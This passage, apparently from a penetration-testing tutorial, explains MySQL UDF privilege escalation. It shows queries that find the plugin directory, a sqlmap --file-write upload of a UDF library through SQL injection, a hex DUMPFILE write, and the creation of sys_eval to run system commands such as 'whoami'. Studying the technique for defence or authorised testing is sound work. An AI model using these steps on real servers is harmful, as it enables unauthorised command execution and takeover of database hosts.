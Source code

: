````sql

<div align=center><img src="./images/18.png"></div>

### Find plugin directory
After creating the dynamic link library file of `UDF`, you need to place it in the plug-in directory of `MySQL` and query it
The statements are as follows:

````sql
show variables like '%compile%'; # View host version and architecture
show variables like 'plugin%'; # View plugin directory
```

When the `plugin` directory does not exist, you can use the following command to create the `\lib\plugin` folder (depending on the operating system):

````sql
select "h3rmesk1t" into dumpfile 'C:\\Tools\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin::$index_allocation';
```

### Write to dynamic link library
[Related tool address](https://github.com/H3rmesk1t/MySQL-UDF/tree/main).

 - `SQL` injection and has high permissions. The `plugin` directory is writable and `secure_file_priv` is unlimited. The `MySQL` plug-in directory can be written by `MySQL` users. At this time, you can directly use `sqlmap` to upload the dynamic link library. However, `GET` has a byte length limit, so `POST` injection often allows this kind of attack to be performed.

```sh
sqlmap -u "http://localhost:9999/" --data="id=1" --file-write="/Users/h3rmesk1t/Desktop/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"
```

 - If there is no injection, you can operate native `SQL` statements. In this case, when `secure_file_priv` is unlimited, you can also manually write files to the `plugin` directory.

````sql
# Direct SELECT query hexadecimal write
SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
```

### Create custom functions and call commands
 - Create function sys_eval.

````sql
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
```

 - After the import is successful, check whether sys_eval has been added to the MySQL function.

```
SELECT * FROM mysql.func;
```

<div align=center><img src="./images/19.png"></div>

 - Then execute system commands through the created function.

````sql
select sys_eval('whoami');
```

<div align=center><img src="./images/20.png"></div>

### Delete custom functions
````